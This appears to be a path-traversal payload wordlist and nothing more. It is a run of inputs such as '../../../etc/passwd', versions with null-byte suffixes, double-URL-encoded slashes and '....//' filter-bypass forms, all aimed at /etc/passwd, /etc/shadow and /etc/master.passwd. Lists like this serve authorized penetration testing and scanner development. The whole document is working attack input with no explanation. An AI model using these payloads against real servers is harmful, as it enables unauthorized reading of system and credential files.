 		....//....//....//etc/passwd

		..%252f..%252f..%252fetc/passwd

		/etc/master.passwd

		/master.passwd

		etc/passwd

		etc/shadow%00

		/etc/passwd

		/etc/passwd%00

		../etc/passwd

		../etc/passwd%00

		../../etc/passwd

		../../etc/passwd%00

		../../../etc/passwd

		../../../etc/passwd%00

		../../../../etc/passwd

		../../../../etc/passwd%00

		../../../../../etc/passwd

		../../../../../etc/passwd%00

		../../../../../../etc/passwd

		../../../../../../etc/passwd%00

		../../../../../../../etc/passwd

		../../../../../../../etc/passwd%00

		../../../../../../../../etc/passwd

		../../../../../../../../etc/passwd%00

		../../../../../../../../../etc/passwd

		../../../../../../../../../etc/passwd%00

		../../../../../../../../../../etc/passwd

		../../../../../../../../../../etc/passwd%00

		../../../../../../../../../../../etc/passwd

		../../../../../../../../../../../etc/passwd%00

		../../../../../../../../../../../../etc/passwd

		../../../../../../../../../../../../etc/passwd%00

		../../../../../../../../../../../../../etc/passwd

